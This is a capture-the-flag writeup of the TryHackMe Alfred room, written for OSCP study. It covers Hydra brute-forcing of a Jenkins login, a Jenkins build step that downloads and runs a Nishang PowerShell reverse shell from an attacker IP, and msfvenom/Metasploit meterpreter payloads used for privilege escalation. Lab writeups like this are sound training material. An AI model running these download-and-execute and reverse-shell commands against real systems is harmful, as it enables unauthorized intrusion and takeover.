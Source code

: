 # Alfred TryHackMe Writeup #
## Preface ##
Since beginning to prepare for the OSCP I have periodically bounced back and forth on my study habits which is not condusive to a smooth study experience or successful exam attempt. As I begin my refresher before beginning much more serious work I have been working through rooms I exploited before, with Alfred being the first room I did that had me scratching my head the first time. I hope this writeup helps you in the event you get stuck as I did.

## Enumeration Phase ##

Since THM provide us with the knowledge of this being a Windows device running Jenkins, this gives us an advantage when it comes to enumeration. This knowledge narrows down the first wave of enumeration we will have to perform with the first being an nmap scan to determine the ports and services running.

This can be achieved by running the comman ```sudo nmap 10.10.69.30 -Pn -p 1-9999```  which gives us three live ports which are:  80/TCP HTTP, 3389/TCP MS-WBT-SERVER, 8080/TCP HTTP-PROXY ![NMAP Enumeration](https://github.com/J0hnStr0ng/THM-Alfred-Writeup/blob/main/images/Pasted%20image%2020221028174616.png)

Now that we have this information lets visit the open http ports to see what is available to us starting with 10.10.69.30:80 which just gives us a page with an image of Bruce Wayne ![Port 80 Access](https://github.com/J0hnStr0ng/THM-Alfred-Writeup/blob/main/images/Pasted%20image%2020221028175000.png) 

We will now visit 10.10.69.30:8080 where we are presented with a Jenkins login page ![Port 8080 Access](https://github.com/J0hnStr0ng/THM-Alfred-Writeup/blob/main/images/Pasted%20image%2020221028175054.png) 

## Initial Access ##

We do not have the password so we can do some searching for Jenkins default passwords where we can see 12345 is a common one, but upon trying it we are unsuccessful, but the Burp Proxy gives us some useful information ![Burp Proxy](https://github.com/J0hnStr0ng/THM-Alfred-Writeup/blob/main/images/Pasted%20image%2020221028181138.png)

Now that we have a login value we need to craft  a hydra payload to run against the endpoint to bruteforce this login. When running hydra from your wordlist directory the command should look something like this:  `hydra -L fasttrack.txt -P fasttrack.txt 10.10.69.30 -s 8080 http-post-form "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&form=%2F&Submit=Sign+in:loginError"`  Which will take a little while to run against the endpoint so be patient. ![Hydra Initialization](https://github.com/J0hnStr0ng/THM-Alfred-Writeup/blob/main/images/Pasted%20image%2020221028183503.png) 

By utilizing Hydra we see a successful login with the username admin and the password admin ![Hydra Success](https://github.com/J0hnStr0ng/THM-Alfred-Writeup/blob/main/images/Pasted%20image%2020221028190601.png)

Now that we have this login information we need to log in and be greeted with the Jenkins GUI where we see an existing project as well as the admin username showing the account we logged in under ![Jenkins Access](https://github.com/J0hnStr0ng/THM-Alfred-Writeup/blob/main/images/Pasted%20image%2020221028190845.png)

We can see that the version is Jenkins 2.190.1 so we need to reseach the functionality of Jenkins to begin getting an idea of what it does which allows us to find ways to exploit it. Once you know the functionality of the service you can then move on to using the tool that THM recommends which is Nishang, specifically the Invoke-PowerShellTcp.ps1 script inside the Nishang package.

Jenkins allows us to execute Windows batch commands on the host running the service which will allow us to pull down the PowerShell script from our machine into the Windows device where it will be executed. Upon execution our listener should pick up giving us a reverse shell. 

Once you load into the project and go into the configuration you will then find a section named build that will allow you to input a command. This will be useful to achieve initial access once we spin up a simplehttp server using the python command `python -m http.server 8000`  This will create a reachable network location for our exploit to be pulled from. We will also want to initiate a listener on port 4444 using the command `rlwrap nc -lvnp 4444` Now that we have a listener running we can push the command to the device through Jenkins by building a project containing `powershell iex (New-Object Net.WebClient).DownloadString('http://10.6.4.233:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.6.4.233 -Port 4444` ![Reverse Shell Execution](https://github.com/J0hnStr0ng/THM-Alfred-Writeup/blob/main/images/Pasted%20image%2020221028213828.png)

You will now have a reverse shell into the device where you can use `whoami` to verify your role and begin looking for the first flag.![Reverse Shell Establoshed](https://github.com/J0hnStr0ng/THM-Alfred-Writeup/blob/main/images/Pasted%20image%2020221028213936.png) ![Flag Achieved](https://github.com/J0hnStr0ng/THM-Alfred-Writeup/blob/main/images/Pasted%20image%2020221028214328.png) 

## Privilege Escalation ##

Now that we have that initial shell we need to escalate our privileges to look for even more flags that may be under administrator accounts. This exercise has us using Metasploit and meterpreter in particular.

We will first need to create our payload using msfvenom which will be generated via the command `msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.6.4.233 LPORT=4445 -f exe -o revshell.exe` ![MSFVenom Payload Creation](https://github.com/J0hnStr0ng/THM-Alfred-Writeup/blob/main/images/Pasted%20image%2020221028221202.png)

Before we build the project we will first need to get Metasploit ready by starting the postgresql service via `service postgresql start` and then running the `msfconsole` command.

Once Metasploit is launch we first need to perform a few steps before we push the exploit and begin attempting to elevate our privileges.
1. `use exploit/multi/handler`
2. `set PAYLOAD windows/meterpreter/reverse_tcp`
3. `set LHOST 10.6.4.233`
4. `set LPORT 4445`
5. `run`
This has us listening for the exploit to be sent and allowing the payload to execute.![MSFConsole Setup](https://github.com/J0hnStr0ng/THM-Alfred-Writeup/blob/main/images/Pasted%20image%2020221028221944.png)

Now that we have this ready we will build our exploit command in Jenkins which will be `powershell "(New-Object System.Net.WebClient).DownloadFile('http://10.6.4.233:8000/revshell.exe','revshell.exe')"` ![Jenkins Payload Retrieval](https://github.com/J0hnStr0ng/THM-Alfred-Writeup/blob/main/images/Pasted%20image%2020221028222440.png)

Once we have pushed that command from Jenkins we will want to use the `Start-Process "revshell.exe"` command from the reverse shell in the project/workspace folder to initiate the exploit. ![Exploit Initialization](https://github.com/J0hnStr0ng/THM-Alfred-Writeup/blob/main/images/Pasted%20image%2020221028223121.png)

This should now allow the Meterpreter shell to begin connecting, opening the pathway to privilege escalation. ![Meterpreter Launch](https://github.com/J0hnStr0ng/THM-Alfred-Writeup/blob/main/images/Pasted%20image%2020221028223212.png)

With the Meterpreter shell running it's pretty simple to elevate privileges by using the `getsystem` command which will utilize an impersonation token, preventing us from being able to explore for the root.txt flag. To truly escalate our privileges to root then we will need to look for any service that would be running under the `NT\AUTHORITY` token since this is a Windows device. A usual suspect for this would be `services.exe` so we will use `ps` to list all processes and look for the PID of `services.exe`. ![Process Listing](https://github.com/J0hnStr0ng/THM-Alfred-Writeup/blob/main/images/Pasted%20image%2020221028224117.png)

Now that we have listed all of the running processes we can migrate to the `services.exe` process which is running as `NT\AUTHORITY` and search for the flag which can be done a few ways but the easiest way will be to utilize `search -f root.txt` to determine the location of the flag then using the `shell` command to launch the Windows terminal where you can use `cd C:\Windows\System32\config` to navigate to the directory housing the flag and finally use `more root.txt` to read the flag completing the exercise.![Process Migration](https://github.com/J0hnStr0ng/THM-Alfred-Writeup/blob/main/images/Pasted%20image%2020221028224629.png) ![Root Flag](https://github.com/J0hnStr0ng/THM-Alfred-Writeup/blob/main/images/Pasted%20image%2020221028224954.png) 
